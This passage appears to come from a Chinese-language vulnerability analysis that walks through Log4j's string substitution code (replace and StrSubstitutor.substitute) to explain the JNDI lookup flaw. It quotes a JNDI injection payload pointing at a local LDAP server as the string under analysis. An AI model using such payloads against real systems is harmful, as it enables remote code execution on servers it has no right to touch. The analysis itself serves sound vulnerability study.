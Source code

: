 ```plain
public String replace(final LogEvent event, final String source) {
    if (source == null) {
        return null;
    }
    // 创建一个 StringBuilder 对象 buf，并将 source 作为初始内容
    final StringBuilder buf = new StringBuilder(source);
    // 调用 substitute 方法进行替换操作，如果没有进行替换，则返回原始的 source 字符串
    if (!substitute(event, buf, 0, source.length())) {
        return source;
    }
    return buf.toString();
}
```

[![](assets/1700701330-39495e2ddc74a63a036f70920853ce5f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120132043-8dc2d04e-8764-1.png)  
跳过中间的步骤来到 StrSubstitutor 类的 substitute 方法，这个方法用于多级插值的递归处理程序。这是主要的插值方法，用于解析传入文本中包含的所有变量引用的值。  
这里有一个大的 while 循环，pos 从 0 开始，从左到右遍历 buf，chars 的值为“error info:${jndi:ldap://127.0.0.1:1389/0xrsto}”

```plain
while (pos < bufEnd) {
    // 前缀匹配
    final int startMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd);
    if (startMatchLen == 0) {
        pos++;
    } else // found variable start marker
    if (pos > offset && chars[pos - 1] == escape) {
        // escaped
        buf.deleteCharAt(pos - 1);
        chars = getChars(buf);
        lengthChange--;
        altered = true;
        bufEnd--;
    } else {
        // 目标在这
        ....
    }
    ...
}
```
